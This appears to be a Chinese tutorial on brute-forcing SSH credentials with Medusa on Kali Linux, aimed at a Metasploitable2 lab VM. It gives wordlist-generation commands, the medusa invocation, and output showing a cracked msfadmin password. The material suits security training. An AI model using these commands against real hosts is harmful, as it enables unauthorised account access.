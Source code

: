 ## 使用Medusa暴力破解ssh账号密码

1、进入kali系统。

2、系统本身自带了这个工具， 在应用程序-Kali Linux-密码攻击-在线攻击-medusa。

3、打开后会进入shell终端，显示的是medusa的帮助。

4、先生成用户和密码文件，这个取决于自己，可以生成N个密码和账户，挨着去测试。

5、本身我们就知道metasploitable2的账号密码，作为测试就生成这几个就可以了。
```bash
[root@kali: ~#] echo -e "msfadmin\nroot\nuser\npostgres\nsys\nklog\nservice" >> user.txt
[root@kali: ~#] echo -e "1234567\nmeiyoumima\nuser\n123456789\nmsfadmin\npostgres\nbatman\nservice" >> passwd.txt
[root@kali: ~#] cat user.txt
msfadmin
root
user
postgres
sys
klog
service
[root@kali: ~#] cat passwd.txt
1234567
meiyoumima
user
123456789
msfadmin
postgres
batman
service
#用户和密码文件都生成了
#开始用medusa暴力破解
root@kali:~# medusa -h metasploitable2 -U user.txt -P passwd.txt -M ssh

ACCOUNT CHECK: [ssh] Host: metasploitable2 (1 of 1, 0 complete) User: msfadmin (1 of 7, 0 complete) Password: 1234567 (1 of 8 complete)
ACCOUNT CHECK: [ssh] Host: metasploitable2 (1 of 1, 0 complete) User: msfadmin (1 of 7, 0 complete) Password: meiyoumima (2 of 8 complete)
ACCOUNT FOUND: [ssh] Host: metasploitable2 User: msfadmin Password: meiyoumima [SUCCESS]
```
6、以上就是medusa的基本使用方式，最后得到结果，可以加上`-O`把成功的
用户密码输出到日志文件中，更多使用方式请查看`medusa --help`